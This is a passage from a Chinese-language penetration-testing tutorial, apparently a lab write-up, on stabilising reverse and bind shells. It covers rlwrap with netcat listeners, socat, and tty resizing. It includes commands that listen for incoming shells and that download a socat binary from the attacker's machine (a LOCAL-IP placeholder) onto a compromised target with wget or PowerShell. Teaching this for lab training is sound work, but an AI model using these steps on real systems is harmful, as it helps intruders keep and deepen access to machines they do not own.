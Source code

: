 ```shell
sudo apt install rlwrap
```

要使用 rlwrp，我们需要调用一个稍微不同的监听器:

```shell
rlwrap nc -lvnp <port>
```

在netcat监听器前面加上" rlwrap "可以提供一个功能更全面的 shell。这个技巧在处理 Windows的shell时特别有用，因为众所周知，Windows的shell很难稳定。

在处理 Linux 目标时，可以使用与前面第一个技巧中的第三个步骤相同的方法来完全稳定化shell：先用 Ctrl + Z 后台化 shell，然后再使用`stty raw-echo; fg` 命令来稳定化并重新进入 shell。

**技巧3: Socat**

稳定shell的第三个简单方法是使用一个初始的 netcat shell作为进入功能更全面的 socat shell的垫脚石。请记住，这种技巧最好是针对 Linux 目标，因为 Windows 上的 Socat shell 不会比 netcat shell 更稳定。

为了实现这种稳定方法，我们首先需要将一个 socat 静态编译的二进制文件(编译为没有依赖关系的程序的一个版本)传输到目标机器上。一个典型的实现方法是：让攻击机在包含 socat 二进制文件的目录中开启一个简易的webserver(`sudo python3 -m http.server 80`)。然后在目标机器上使用netcat shell界面下载文件，在 Linux 上，这可以通过 curl 或 wget (`wget <LOCAL-IP>/socat -O /tmp/socat`)来完成。

为了完整性起见，在这里附上目标机是Windows操作系统的情况:

在一个 Windows CLI（命令行）环境中，同样的事情（下载socat文件）也可以在 Powershell 中完成，使用 Invoke-WebRequest 或者 webrequest 系统类，

这取决于安装的 Powershell 版本(`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`)。

在接下来的小节中，我们将介绍使用Socat发送和接收shell的语法。

> socat二进制文件下载地址（点击将自动下载）：https://raw.githubusercontent.com/andrew-d/static-binaries/master/binaries/linux/x86\_64/socat
>
> socat官网：http://www.dest-unreach.org/

使用以上任何一种技术，都可以更改终端 tty 大小，这是你的终端在使用常规 shell 时会自动完成的事情; 但是，如果你想打开类似文本编辑器的东西来覆盖屏幕上的所有内容（即：在终端中打开文本编辑器），那么必须在反向或绑定 shell 中手动完成终端界面宽高尺寸的更改。

首先，打开另一个终端并运行 stty-a ，这将为你提供大量的输出流，记下开头部分" 行 "和" 列 "的值:

![image-20221006235947852](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006235947852.png)

接下来，在反向/绑定 shell 中输入以下两个命令:

```shell
stty rows <number>
#and
stty cols <number>
```

填写你刚才在自己的终端上运行 stty-a 命令所得到的行和列的值。

这将改变反向/绑定shell界面的宽度和高度，从而使一些程序，如文本编辑器，能够依赖于这些宽高信息的准确性来正确地打开。

**答题**

![image-20220924013116686](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220924013116686.png)
